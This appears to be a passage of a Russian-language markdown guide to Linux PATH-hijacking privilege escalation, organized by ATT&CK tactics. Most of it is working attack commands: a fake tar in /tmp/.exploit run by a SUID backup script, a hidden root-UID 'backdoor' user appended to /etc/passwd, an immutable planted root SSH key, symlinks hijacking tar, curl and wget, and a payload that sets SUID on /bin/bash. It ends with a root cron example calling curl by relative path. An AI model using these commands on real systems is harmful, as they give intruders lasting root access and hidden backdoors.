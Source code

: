 ```bash
tar -cf backup.tar /data  # запуск SUID-скрипта бэкапа
# выполняется /tmp/.exploit/tar вместо /bin/tar
```

---

#### 4. [TA0003] – Persistence (Закрепление)
> Добавление постоянного доступа после получения root

```bash
# Создание скрытого пользователя
echo 'backdoor:$6$salt$hash:0:0::/root:/bin/bash' >> /etc/passwd

# Установка скрытого SSH-доступа
mkdir -p /root/.ssh
echo 'ssh-ed25519 AAAAC3Nz...' >> /root/.ssh/authorized_keys
chattr +i /root/.ssh/authorized_keys
```

---

### Ключевые особенности атаки

1. **Невидимость**:
   - Подмена происходит только при вызове команд без абсолютных путей
   - Легитимная команда продолжает работать при явном указании пути (`/bin/tar`)
2. **Контекстозависимость**:
   - Эксплойт активируется только при вызове уязвимой программы
   - В остальное время система работает нормально
3. **Многоразовость**:
   - Можно подменить несколько команд одновременно
   ```bash
   ln -s /tmp/.exploit/malicious /tmp/.exploit/tar
   ln -s /tmp/.exploit/malicious /tmp/.exploit/curl
   ln -s /tmp/.exploit/malicious /tmp/.exploit/wget
   ```
4. **Динамическая полезная нагрузка**:
   - Скрипт может содержать сложную логику:
   ```bash
   echo '#!/bin/bash' > /tmp/.exploit/target_cmd
   echo 'if [ "$EUID" -eq 0 ]; then' >> /tmp/.exploit/target_cmd
   echo '    # Действия при запуске от root' >> /tmp/.exploit/target_cmd
   echo '    chmod u+s /bin/bash' >> /tmp/.exploit/target_cmd
   echo 'else' >> /tmp/.exploit/target_cmd
   echo '    # Действия при обычном запуске' >> /tmp/.exploit/target_cmd
   echo '    /usr/bin/target_cmd_real "$@"' >> /tmp/.exploit/target_cmd
   echo 'fi' >> /tmp/.exploit/target_cmd
   ```

## Примеры атак

### Пример 1: Эксплуатация cron-задачи с `curl`
> Есть системный скрипт `/etc/cron.hourly/log_upload`, который автоматически выполняется каждый час от имени пользователя **root**:
> Скрипт вызывает `curl` без указания абсолютного пути (`/usr/bin/curl`), полагаясь на переменную окружения PATH.
```bash
#!/bin/bash
curl -F "log=@/var/log/app.log" http://logs.example.com/upload
```

---